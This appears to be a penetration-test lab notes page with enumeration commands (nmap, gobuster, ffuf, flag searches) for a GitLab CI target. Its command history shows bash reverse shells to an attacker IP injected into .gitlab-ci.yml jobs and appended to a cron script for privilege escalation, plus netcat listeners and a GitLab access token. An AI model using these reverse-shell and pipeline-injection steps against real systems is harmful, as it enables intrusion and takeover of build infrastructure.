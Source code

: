 # Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- /home/gitlab-runner/local.txt
- /root/proof.txt

# Accounts
### username / password
` `   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 10.20.164.14 --top-ports 1000`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
`sudo nmap -A -T4 -p- <IP>`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
// perform the following on .10 vncviewer
// modify .gitlab-ci.yml
- bash -c "bash -i >& /dev/tcp/192.168.45.186/5555 0>&1"

// on kali
nc -lvnp 5555

git add .
git commit -m "stuff"
git push
//research : glpat-PzrxBe-5Js7c3t7hoq4X

//get reverse shell 
// crontab for privesc
nc -lvnp 443

echo "bash -i >& /dev/tcp/192.168.45.186/443 0>&1" >> /opt/u/__fs.sh

```

gl = gitlab.Gitlab(
    url='http://cicd.skylark.com',
    private_token='glpat-PzrxBe-5Js7c3t7hoq4X'
)

cat .gitlab-ci.yml
# TODO: Make sure we run tests as part of the CICD!

before_script:
  - python3 --version  # For debugging

test:
  script:
    - echo "Tests go here - this should work now?"
    - bash -i >& /dev/tcp/192.168.45.228/4444 0>&1
run:
  script:
    - echo "Insert something useful here"
    - bash -i >& /dev/tcp/192.168.45.228/4444 0>&1